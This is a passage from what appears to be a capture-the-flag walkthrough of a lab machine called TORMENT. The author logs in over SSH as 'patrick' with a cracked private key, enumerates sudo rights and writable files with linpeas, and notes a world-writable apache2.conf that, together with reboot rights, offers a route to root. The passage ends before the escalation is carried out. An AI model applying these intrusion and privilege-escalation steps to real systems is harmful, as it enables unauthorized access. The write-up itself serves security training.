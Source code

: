 There we go, we are able to obtain the decrypted ssh key using that password. Now we need to figure out what user to ssh as. We can try logging in as the users identified in the printers page. After trying out a few of them, the patrick username seems to work.

```bash
ssh patrick@192.168.247.134 -i id_rsa
Enter passphrase for key 'id_rsa': 
Linux TORMENT 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sat Jan 11 17:45:58 2025 from 192.168.247.131
patrick@TORMENT:~$
```

```bash
patrick@TORMENT:~$ sudo -l
Matching Defaults entries for patrick on TORMENT:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User patrick may run the following commands on TORMENT:
    (ALL) NOPASSWD: /bin/systemctl poweroff, /bin/systemctl halt, /bin/systemctl reboot
```

It seems we have the ability to poweroff, halt and reboot the system. This doesn’t help us much in terms of priv esc but let’s keep it in mind for later. 

After a while I wasn’t able to find anything manually, so I decided to use linpeas to see if I could notice something I didn’t earlier.

```bash
══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                                                                                           
/dev/mqueue                                                                                                                                                                                                                                 
/dev/shm
/etc/apache2/apache2.conf
/home/patrick
/run/lock
/run/user/1001
<SNIP>

```

It seems we are able to write to the apache2.conf file. Paired with the ability to reboot the system we can use this to escalate our privileges.
